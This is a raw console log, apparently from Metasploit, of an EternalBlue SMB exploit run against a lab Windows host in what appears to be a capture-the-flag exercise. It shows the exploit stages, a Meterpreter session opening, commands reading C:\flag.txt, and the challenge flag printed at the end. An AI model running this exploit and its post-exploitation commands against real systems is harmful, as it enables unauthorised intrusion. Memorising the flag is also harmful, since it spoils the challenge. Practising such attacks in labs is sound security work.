[*] 10.2.2.54:445 - Starting non-paged pool grooming
[+] 10.2.2.54:445 - Sending SMBv2 buffers
[+] 10.2.2.54:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.2.2.54:445 - Sending final SMBv2 buffers.
[*] 10.2.2.54:445 - Sending last fragment of exploit packet!
[*] 10.2.2.54:445 - Receiving response from exploit packet
[+] 10.2.2.54:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.2.2.54:445 - Sending egg to corrupted connection.
[*] 10.2.2.54:445 - Triggering free of corrupted buffer.
[*] Started bind TCP handler against 10.2.2.54:1433
[*] Sending stage (201798 bytes) to 10.2.2.54
[*] Meterpreter session 1 opened (172.31.105.148:36744 -> 172.16.233.2:2000) at 2025-03-13 20:17:34 +0800
[+] 10.2.2.54:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.2.2.54:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.2.2.54:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > whoami
[-] Unknown command: whoami
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
meterpreter > cat C:\flag.txt
                                                        ,----,
                                                      ,/   .`|                                ,--.
  .--.--.              .---.    ,---,.    ,---,.    ,`   .'  : ,----..     ,---,          ,--/  /|    ,---,.
 /  /    '.           /. ./|  ,'  .' |  ,'  .' |  ;    ;     //   /   \   '  .' \      ,---,': / '  ,'  .' |
|  :  /`. /       .--'.  ' ;,---.'   |,---.'   |.'___,/    ,'|   :     : /  ;    '.    :   : '/ / ,---.'   |
;  |  |--`       /__./ \ : ||   |   .'|   |   .'|    :     | .   |  ;. /:  :       \   |   '   ,  |   |   .'
|  :  ;_     .--'.  '   \' .:   :  |-,:   :  |-,;    |.';  ; .   ; /--` :  |   /\   \  '   |  /   :   :  |-,
 \  \    `. /___/ \ |    ' ':   |  ;/|:   |  ;/|`----'  |  | ;   | ;    |  :  ' ;.   : |   ;  ;   :   |  ;/|
  `----.   \;   \  \;      :|   :   .'|   :   .'    '   :  ; |   : |    |  |  ;/  \   \:   '   \  |   :   .'
  __ \  \  | \   ;  `      ||   |  |-,|   |  |-,    |   |  ' .   | '___ '  :  | \  \ ,'|   |    ' |   |  |-,
 /  /`--'  /  .   \    .\  ;'   :  ;/|'   :  ;/|    '   :  | '   ; : .'||  |  '  '--'  '   : |.  \'   :  ;/|
'--'.     /    \   \   ' \ ||   |    \|   |    \    ;   |.'  '   | '/  :|  :  :        |   | '_\.'|   |    \
  `--'---'      :   '  |--" |   :   .'|   :   .'    '---'    |   :    / |  | ,'        '   : |    |   :   .'
                 \   \ ;    |   | ,'  |   | ,'                \   \ .'  `--''          ;   |,'    |   | ,'
                  '---"     `----'    `----'                   `---`                   '---'      `----'
go-flag{C3410D09-29FF-4634-5F4E-E4F7BBC1DF5D}
meterpreter >
```
